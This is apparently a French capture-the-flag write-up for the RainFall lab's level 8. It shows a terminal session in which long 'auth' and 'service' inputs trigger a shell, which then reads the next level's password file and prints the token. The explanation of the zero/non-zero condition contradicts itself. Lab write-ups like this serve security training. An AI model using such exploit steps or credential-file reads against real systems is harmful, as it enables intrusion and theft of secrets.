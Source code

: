 - Dans le code on comprends qu'il y a plusieurs commande pour assigner des strings a des variables 
```
commandes:
auth <str>
service <str>
reset
login
```
- On comprend aussi qu'un shell est lancer sous condition que *(auth +0x20) soit egale a zero
- Donc il suffit de remplir les variables auth et service pour etre sure que cette variable ne soit pas egale a 0
```
level8@RainFall:~$ ./level8
(nil), (nil) 
auth bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
0x804a018, (nil) 
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a018, 0x804a028 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
